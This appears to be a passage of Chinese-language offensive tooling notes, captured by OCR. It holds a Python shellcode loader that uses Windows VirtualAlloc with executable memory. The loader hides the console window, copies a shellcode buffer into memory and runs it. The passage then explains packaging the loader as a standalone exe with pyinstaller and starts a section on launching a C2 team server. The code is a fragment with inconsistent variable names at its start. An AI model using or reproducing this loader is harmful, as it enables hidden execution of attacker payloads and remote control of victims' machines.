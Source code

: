 ```
    size = len(buffer)
    addr = libc.valloc(size)
    addr = c_void_p(addr)
    if 0 == addr: 
        raise Exception("Failed to allocate memory")
    memmove(addr, buf, size)
    if 0 != libc.mprotect(addr, len(buffer), PROT_READ | PROT_WRITE | PROT_EXEC):
        raise Exception("Failed to set protection on buffer")
    return addr
VirtualAlloc = ctypes.windll.kernel32.VirtualAlloc
VirtualProtect = ctypes.windll.kernel32.VirtualProtect
shellcode = bytearray(buf)
whnd = ctypes.windll.kernel32.GetConsoleWindow()   
if whnd != 0:
       if 1:
              ctypes.windll.user32.ShowWindow(whnd, 0)   
              ctypes.windll.kernel32.CloseHandle(whnd)
memorywithshell = ctypes.windll.kernel32.VirtualAlloc(ctypes.c_int(0),
                                          ctypes.c_int(len(shellcode)),
                                          ctypes.c_int(0x3000),
                                          ctypes.c_int(0x40))
buf = (ctypes.c_char * len(shellcode)).from_buffer(shellcode)
old = ctypes.c_long(1)
VirtualProtect(memorywithshell, ctypes.c_int(len(shellcode)),0x40,ctypes.byref(old))
ctypes.windll.kernel32.RtlMoveMemory(ctypes.c_int(memorywithshell),
                                     buf,
                                     ctypes.c_int(len(shellcode)))
shell = cast(memorywithshell, CFUNCTYPE(c_void_p))
shell()

```

```
https://sourceforge.net/projects/py2exe/files/py2exe/0.6.9/py2exe-0.6.9.win32-py2.7.exe/download
https://www.python.org/ftp/python/2.7.16/python-2.7.16.msi
https://github.com/pyinstaller/pyinstaller/releases
 
安装python2.7 
增加环境变量
安装生成exe的库
Python setup.py install
不能带有中文路径否则出错
Pip install pyinstaller
生成exe文件
pyinstaller -F bb.py
```

# 十三 C2的使用

使用:`./teasmserver [ip][password][/patch/profile]` 
